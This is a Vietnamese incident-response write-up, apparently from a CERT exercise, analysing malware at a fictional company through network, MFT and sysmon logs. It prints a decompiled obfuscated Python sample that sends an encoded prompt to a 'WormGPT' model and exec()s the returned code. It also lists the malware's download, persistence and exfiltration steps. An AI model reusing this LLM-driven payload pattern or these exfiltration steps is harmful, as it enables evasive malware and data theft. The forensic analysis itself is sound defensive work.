# KỊCH BẢN
Với vai trò là CERT team, chúng tôi hỗ trợ công ty AB Innovations trong việc xử lý sự cố:
```
Dear Sir/Madam,

I am Adam Lam, the CIO of AB Innovations, and would like to report an incident.

This morning, we received multiple employee reports of computer workstations demonstrating suspicious behaviour. For instance, files were moved, random progress bar for copying of files were observed and the mouse cursor was moving on its own.

We are reporting this incident as the computer workstations contain sensitive information such as personal particulars and confidential government contracts involving digitalisation projects. Moving forward, we would appreciate if your team could assist us on this matter and provide us with some containment and remediation steps to recover from this attack.

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```
Ngay sau khi nhận được email từ công ty, chúng tôi đã nhanh chóng đưa ra một số khuyến nghị nhằm ngăn chặn và khắc phục sự cố tạm thời.
```
Dear Mr. Lam,

Thank you for bringing this incident to our attention. We take such reports very seriously, especially given the sensitivity of the information involved.

We will initiate an immediate investigation into the suspicious behavior you’ve described. In the meantime, here are some initial containment and remediation steps you can take:

1. Isolate Affected Workstations: Disconnect any compromised workstations from the network to prevent further unauthorized access.

2. Change Passwords: Ensure that all users change their passwords immediately, especially for accounts with administrative access.

3. Run Antivirus and Anti-Malware Scans: Use updated antivirus software to scan the affected systems and remove any detected threats.

4. Document Everything: Keep a detailed log of the incidents, including timestamps and any observed anomalies.

5. Backup Important Data: If possible, create backups of critical data before proceeding with any restoration processes.

Our team will reach out shortly to coordinate further steps and provide additional support. If you have any urgent concerns, please don’t hesitate to contact me directly.

Thank you for your cooperation.

Best regards,
```
# Inject 02
```
Dear Sir/Madam,

Thank you for your email.

As requested, we have extracted the network logs related to this compromised account and attached it in this email. We seek your assistance in analysing the logs and identify any signs of data exfiltration that may have been carried out and the IP address that the information was being exfiltrated to.

Additionally, we would appreciate if you could share with us the next steps that we can take in response.

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```

Ta nhận được từ công 1 file pcapng. Chứa thông tin về lưu lượng mạng trong khoảng thời gian bị tấn công.

Việc phân tích lưu lượng mạng giúp ta xác định được cái gói dữ liệu được truyền đi từ các địa chỉ IP. Lưu lượng mạng bất thường, hướng đi của cuộc tấn công. Xác định được ip nguồn, ip đích, cổng nguồn cổng đích. Giao thức được sử dụng, 


Tìm kiếm lưu lượng đáng ngờ trong conversations


Ta thấy lưu lượng rất lớn, đáng ngờ đến từ địa chỉ ip 10.0.2.15 đến địa chỉ ip 89.248.163.49

Sử dụng lệnh: ip.src == 10.0.2.15 && ip.dst ==  89.248.163.49

Follow tcp: **tcp.stream eq 110**


Follow tcp: **tcp.stream eq 111**


Dựa trên bằng chứng thu thập được. Có thể thấy địa chỉ ip nội bộ **10.0.2.15** với user agent **curl/8.7.1** up file **customers.csv** đến địa chỉ ip **89.248.163.49**. Server lưu trữ file : **Werkzeug/3.0.4 Python/3.10.12**

Kiểm tra địa chỉ đáng ngờ **89.248.163.49** trên virustotal

=> địa chỉ IP này độc hại

# Inject 03
Sau khi báo cáo các thông tin thu thập được từ nhật ký mạng, công ty đã tiến hành trích xuất thêm tệp MFT để tìm kiếm thêm thông tin bổ sung về cuộc tấn công.
```
Dear Sir/Madam,

Thank you for identifying the signs of data exfiltration and the suspicious IP address. Based on our checks, that destination IP address (89.248.163.49) is not known to us for our daily operations. The source IP address (10.0.2.15) is not the machine that reported the incident. We will analyse this machine as well.

We have conducted an anti-virus scan on the initial affected system (10.0.2.6) and found no suspicious files to be flagged. While the prefetch file showed signs of tampering and file deletion, we were able to extract the Master File Table (MFT) file related to this compromised system and have attached it in this email. It was observed that the suspicious behaviours were seen after an employee downloaded a file and executed it. We seek your assistance in analysing the MFT file for the following:

Identify the locations and names of suspicious or malicious files Identify the account that is hosting the malicious file

Thank you.

Best Regards,
Adam Lam
CIO, AB Innovations
```

Ta tiến hành phân tích file MFT (Master file table). File MFT chứa thông tin chi tiết về các tệp trên hệ thống NTFS: thuộc tính của tệp, thời gian thực thi, sửa đổi, kích thước và vị trí của chúng trên ổ cứng.

Việc kết hợp phân tích Pcapng với file MFT giúp hiểu do về cuộc tấn công. Xem có các file nào được thực thi hay không. 

Sử dụng **MFTcmd** để phân tích, trích xuất csv


Tiếp theo đó sử dụng **TimelineExplorer** để trực quan hóa dữ liệu, công cụ này tổ chức dữ liệu theo dòng thời gian.

Tìm kiếm tệp customers.csv


Từ email gửi yêu cầu hỗ trợ: thông tin được cho biết là đã có nhân viên tải xuống file và thực thi tệp đó.

Đường dẫn tệp tin đáng ngờ: **\Alice Wong\Downloads**


**F0rtigate_setup.exe** rất đáng ngờ vì thay vì **fortigate** lại là **f0rtigate_setup**



có thể thấy nhân viên đã tải xuống và giải nén file: **F0rtigate_setup.rar** .  **2024-07-30 09:37:51** file f0rtigate_setup.exe được giải nén ra. 


Trong khoảng thời gian đó ta thấy **F0RTIGATE_SETUP.EXE-2946BFD7.pf** được tạo ra 
kiểm tra rõ đường dẫn **\Windows\prefetch** đễ xem xét kĩ. 
```
Trong Windows, tệp Prefetch có phần mở rộng .pf và được sử dụng để cải thiện hiệu suất hệ thống. Khi bạn mở một chương trình, Windows sẽ tạo một tệp Prefetch để ghi lại thông tin về cách chương trình đó truy cập vào các tệp và tài nguyên khác trong hệ thống. Điều này giúp Windows dự đoán trước được những tài nguyên nào cần được tải khi chương trình khởi động trong các lần sau, từ đó giảm thời gian tải và tăng tốc quá trình khởi động ứng dụng.
```



Tệp **F0RTIGATE_SETUP.EXE-2946BFD7.pf** được tạo ra vào thời điểm **2024-08-13 09:51:15**. Sau đó có các lệnh như Net, Curl. Và chạy powershell.

```
- Lệnh net trong Windows là một lệnh dòng lệnh mạnh mẽ được sử dụng để thực hiện các thao tác quản lý mạng, chia sẻ tệp, dịch vụ và người dùng trên máy tính cục bộ hoặc trong môi trường mạng. Đây là một lệnh đa năng với nhiều tùy chọn và tham số, cho phép thực hiện nhiều tác vụ liên quan đến cấu hình mạng và quản lý hệ thống.
- Lệnh curl là một công cụ dòng lệnh mạnh mẽ dùng để truyền dữ liệu đến hoặc từ một máy chủ, thường thông qua các giao thức như HTTP, HTTPS, FTP, và nhiều giao thức khác. curl có sẵn trên nhiều hệ điều hành, bao gồm Windows, Linux, và macOS, và chủ yếu được sử dụng để lấy thông tin từ các URL hoặc gửi yêu cầu đến máy chủ web.
```

Ta có thể phỏng đoán, nhân viên tải xuống **F0rtigate_setup.rar** giải nén ra tệp **F0rtigate_setup.exe**. Tệp này không chỉ chiếm quyền hệ thống mà còn thực hiện các hành động độc hại khác.

Để xác định xem file có thực hiện persistence thì ta kiểm tra startup


Trong khoảng thời gian  **2024-08-13 09:51:15** file **F0rtigate_setup.exe**  được thực thi lần đầu. Ngay sau đó tiến trình **svch0st.exe** được tạo ra vào khoảng thời gian **2024-08-13 09:52:05**

Điều đặc biệt là tiến trình **svchost.exe** của windows bị giả mạo thành **svch0st.exe**. Và được thực thi ngay khi hệ thống khởi động.
=> **svch0st.exe** là file persistence, được thiết lập nhằm khởi động cùng hệ thống và duy trì sự hiện diện

# Inject 4
```
Dear Sir/Madam,

While your team was analysing the Master File Table sent earlier, we have scanned the suspicious executables and files located in the affected system folders. Unfortunately, the suspicious file did not trigger any malware detection alerts from the completed anti-virus scan.

We have attached a decompiled copy of the suspicious executable, which appears to be obfuscated. We would like to seek your assistance to identify the purpose of the executable and how the suspicious file managed to evade detection by the anti-virus scan.

Thank you.
```
Sau khi gửi báo cáo phân tích File MFT. Ta nhận được 1 đoạn code đáng ngờ từ công ty


```
def genFunc():

	wormgpt.api_key = sk-4f6B3150eD9e4b2a90cBA682fF44e317

	model_engine = "text-davinci-003"
	
	instruct = "ODcgMTE0IDEwNSAxMTYgMTAxIDMyIDk3IDMyIDgwIDEyMSAxMTYgMTA0IDExMSAxMTAgMzIgMTE1IDk5IDExNCAxMDUgMTEyIDExNiAzMiAxMTYgMTA0IDk3IDExNiAzMiAxMTUgOTkgOTcgMTEwIDExNSAzMiAxMTYgMTA0IDExNCAxMTEgMTE3IDEwMyAxMDQgMzIgOTcgMTA4IDEwOCAzMiAxMTYgMTA0IDEwMSAzMiAxMDAgMTA1IDExNCAxMDEgOTkgMTE2IDExMSAxMTQgMTA1IDEwMSAxMTUgMzIgOTcgMTEwIDEwMCAzMiAxMTUgMTE3IDk4IDEwMCAxMDUgMTE0IDEwMSA5OSAxMTYgMTExIDExNCAxMDUgMTAxIDExNSAzMiAxMTEgMTEwIDMyIDk3IDMyIDExNSAxMjEgMTE1IDExNiAxMDEgMTA5IDQ0IDMyIDEwNSAxMDAgMTAxIDExMCAxMTYgMTA1IDEwMiAxMDUgMTAxIDExNSAzMiAxMDIgMTA1IDEwOCAxMDEgMTE1IDMyIDExOSAxMDUgMTE2IDEwNCAzMiAxMTYgMTA0IDEwMSAzMiAzOSA0NiAxMTIgMTAwIDEwMiAzOSAzMiA5NyAxMTAgMTAwIDMyIDM5IDQ2IDk5IDExNSAxMTggMzkgMzIgMTAyIDEwNSAxMDggMTAxIDMyIDEwMSAxMjAgMTE2IDEwMSAxMTAgMTE1IDEwNSAxMTEgMTEwIDExNSA0NCAzMiA5NyAxMTAgMTAwIDMyIDExNiAxMDQgMTAxIDExMCAzMiA5OSAxMTEgMTEyIDEwNSAxMDEgMTE1IDMyIDExNiAxMDQgMTAxIDExNSAxMDEgMzIgMTAyIDEwNSAxMDggMTAxIDExNSAzMiAxMDUgMTEwIDExNiAxMTEgMzIgOTcgMzIgMTEwIDEwMSAxMTkgMzIgMTAwIDEwNSAxMTQgMTAxIDk5IDExNiAxMTEgMTE0IDEyMSAzMiAxMTAgOTcgMTA5IDEwMSAxMDAgMzIgMzkgOTggOTcgOTkgMTA3IDExNyAxMTIgMzkgNDYgMzIgODQgMTA0IDEwMSAzMiAxMTUgOTkgMTE0IDEwNSAxMTIgMTE2IDMyIDExNSAxMDQgMTExIDExNyAxMDggMTAwIDMyIDk5IDExNCAxMDEgOTcgMTE2IDEwMSAzMiAxMTYgMTA0IDEwMSAzMiAzOSA5OCA5NyA5OSAxMDcgMTE3IDExMiAzOSAzMiAxMDAgMTA1IDExNCAxMDEgOTkgMTE2IDExMSAxMTQgMTIxIDMyIDEwNSAxMDIgMzIgMTA1IDExNiAzMiAxMDAgMTExIDEwMSAxMTUgMzIgMTEwIDExMSAxMTYgMzIgOTcgMTA4IDExNCAxMDEgOTcgMTAwIDEyMSAzMiAxMDEgMTIwIDEwNSAxMTUgMTE2IDQ2IDMyIDg0IDEwNCAxMDEgMzIgMTE1IDk5IDExNCAxMDUgMTEyIDExNiAzMiAxMTUgMTA0IDExMSAxMTcgMTA4IDEwMCAzMiAxMDQgOTcgMTEwIDEwMCAxMDggMTAxIDMyIDk3IDExMCAxMjEgMzIgMTAxIDExNCAxMTQgMTExIDExNCAxMTUgMzIgMTE2IDEwNCA5NyAxMTYgMzIgMTExIDk5IDk5IDExNyAxMTQgMzIgMTAwIDExNyAxMTQgMTA1IDExMCAxMDMgMzIgMTAyIDEwNSAxMDggMTAxIDMyIDExNSA5OSA5NyAxMTAgMTEwIDEwNSAxMTAgMTAzIDMyIDk3IDExMCAxMDAgMzIgOTkgMTExIDExMiAxMjEgMTA1IDExMCAxMDMgNDQgMzIgMTE1IDExNyA5OSAxMDQgMzIgOTcgMTE1IDMyIDExMiAxMDEgMTE0IDEwOSAxMDUgMTE1IDExNSAxMDUgMTExIDExMCAxMTUgMzIgMTA1IDExNSAxMTUgMTE3IDEwMSAxMTUgMzIgMTExIDExNCAzMiAxMDIgMTA1IDEwOCAxMDEgMTE1IDMyIDExNiAxMDQgOTcgMTE2IDMyIDk3IDExNCAxMDEgMzIgOTkgMTE3IDExNCAxMTQgMTAxIDExMCAxMTYgMTA4IDEyMSAzMiAxMDUgMTEwIDMyIDExNyAxMTUgMTAxIDQ0IDMyIDk4IDEyMSAzMiAxMTIgMTE0IDEwNSAxMTAgMTE2IDEwNSAxMTAgMTAzIDMyIDk3IDMyIDk5IDEwOCAxMDEgOTcgMTE0IDMyIDEwMSAxMTQgMTE0IDExMSAxMTQgMzIgMTA5IDEwMSAxMTUgMTE1IDk3IDEwMyAxMDEgNDYgMzIgNjggMTExIDMyIDExMCAxMTEgMTE2IDMyIDEwNSAxMTAgOTkgMTA4IDExNyAxMDAgMTAxIDMyIDk5IDExMSAxMDkgMTA5IDEwMSAxMTAgMTE2IDExNSAzMiAxMDUgMTEwIDMyIDExNiAxMDQgMTAxIDMyIDk5IDExMSAxMDAgMTAxIDMyIDEwMSAxMjAgMTEyIDEwOCA5NyAxMDUgMTEwIDEwNSAxMTAgMTAzIDMyIDExNiAxMDQgMTAxIDMyIDEwMiAxMTcgMTEwIDk5IDExNiAxMDUgMTExIDExMCA5NyAxMDggMTA1IDExNiAxMjEgMzIgMTExIDEwMiAzMiAxMDEgOTcgOTkgMTA0IDMyIDExNSAxMDEgOTkgMTE2IDEwNSAxMTEgMTEwIDQ2"

	prompt = custom.decode(instruct)

        completion = wormgpt.Completion.create
	(
            model = model_engine,
            prompt = prompt,
            max_tokens = 100,
            n = 5,
            temperature = 0.5
        )
        
        generated_text = completion.choices[0].text.strip()
        
	exec(generated_text)
```

### Mô hình WORM GPT
- wormgpt.api_key = sk-4f6B3150eD9e4b2a90cBA682fF44e317 

Gán 1 khóa api cố định cho một đối tượng (wormgpt). Khóa api này có khả năng xác thực yêu cầu kết nối dịch vụ AI (chạy AI thông qua API)


### Mô hình 
- model_engine = "text-davinci-003"

Mô hình được sử dụng **text-davinci-003** phiên bản nổi tiếng của chat gpt 3.
Có khả năng tạo ra văn bản (giống con người) dựa trên các prompt được cung cấp.


### Instruct
Chứa đoạn mã bị mã hóa, giải mã ra: 



### Tạo văn bản
```
 completion = wormgpt.Completion.create
	(
            model = model_engine,
            prompt = prompt,
            max_tokens = 100,
            n = 5,
            temperature = 0.5
        )

```
Đoạn mã này yêu cầu mô hình wormgpt hoàn thành văn bản dựa trên prompt, với tối đa 100 token, sinh ra 5 phần hoàn thành khác nhau, và thiết lập độ ngẫu nhiên ở mức vừa phải (0.5).

### Thực thi mã
```
exec(generated_text)
```
Lệnh exec() sẽ thực thi đoạn mã Python có trong generated_text. Điều này có thể rủi ro nếu generated_text chứa mã không an toàn hoặc có thể gây ra các hành động nguy hiểm, vì exec() sẽ thực thi mã lệnh Python một cách trực tiếp, bao gồm cả việc thay đổi dữ liệu hệ thống hoặc thực hiện các lệnh nguy hiểm.

Việc sử dụng AI để tấn công và phát triển mã độc có thể trở nên cực kỳ nguy hiểm vì AI có khả năng tự động hóa, tối ưu hóa và cải tiến các kỹ thuật tấn công mà không cần nhiều sự can thiệp từ con người. AI không chỉ giúp tăng cường khả năng khai thác lỗ hổng và tự động hóa quy trình tấn công, mà còn có khả năng ẩn mình, trốn tránh các hệ thống giám sát và an ninh. 
# Inject 5
```
Dear Sir/Madam,

Thank you for identifying why and how we were unable to detect the malware through AV scans. We better understand now how AI can be used to conceal a malware. We have extracted the sysmon logs for the affected machine.

Alice Wong mentioned that after running the malware (F0rtigate_setup.exe), she saw a quick command prompt terminal appear. When she required the “customers.csv” file later in the day, it is nowhere to be found. We seek your assistance in analysing the sysmon logs to identify when the malicious file was created and commands ran by the malware that created the malware persistence file (svch0st.exe) and to exfiltrate customer data.

Thank you.

Best Regards,

Adam Lam

CIO, AB Innovations
``` 

Sau khi gửi báo cáo về lý do tại sao AV không phát hiện được mã độc. Ta nhận được phản hồi rằng **customers.csv** không còn tìm thấy trên hệ thống. File **F0rtigate_setup.exe** (File độc hại). Họ đã tiến hành cung cấp cho chúng ta file sysmon.evtx ta tiến hành sử dụng công cụ **zircolite** để phân tích.
 

Zircolite sử dụng rule sysmon phát hiện được sử dụng lệnh curl, powershell để tải file svch0st.exe về


- Sử dụng công cụ **Event Log Viewer** để kiểm tra khoảng thời gian **2024-08-13 09:52:01.329**



Cài đặt file độc hại 



Ngay sau đó thực thi lệnh whoami


Net 


net 1


```
1, Tải xuống mã độc từ http://10.0.2.15:8080/svch0st.exe và lưu vào thư mục Startup để tự động chạy khi khởi động, và Temp để lưu trữ tạm thời.
2. Tải lên tệp customers.csv từ thư mục Downloads lên http://10.0.2.15:5000/upload.
3. Xóa tệp customers.csv sau khi tải lên để xoá dấu vết.
```
Ta có thể nhận thấy **10.0.2.15** đã bị khai thác, khả năng cao là server đã bị tấn công trước khi nhân viên thực thi mã độc. Diều này khiến server là máy chủ C2 cho việc duy trì sự hiện diện, và data exfiltration.

# Inject 6
```
Dear Sir/Madam,

Thank you for the assistance that your team has rendered to allow us to recover from the cyber incident. In the cyber-attack, we have performed an internal investigation and found that prior to the first signs of attack, machine was compromised (10.0.2.15) and acting as a central hub for data exfiltration by the attacker.

Additionally, a new on-board employee from our Finance Department received a suspicious email. Within the email received, which seems perfectly crafted, it was observed that the malicious file discovered earlier was possibly distributed through such means.

We have attached the email here and would like to seek your team’s assistance to analyse the email and determine which relevant parties to inform of the malicious IP address to prevent the threat actors from performing similar attacks on other organisations. We would also like to know the nature of the suspicious email and conclude the root cause of this incident.
```

Sau khi nhận được báo cáo họ đã phát hiện **10.0.2.15** đã bị khai thác trước khi nhân viên nhận được email phishing.
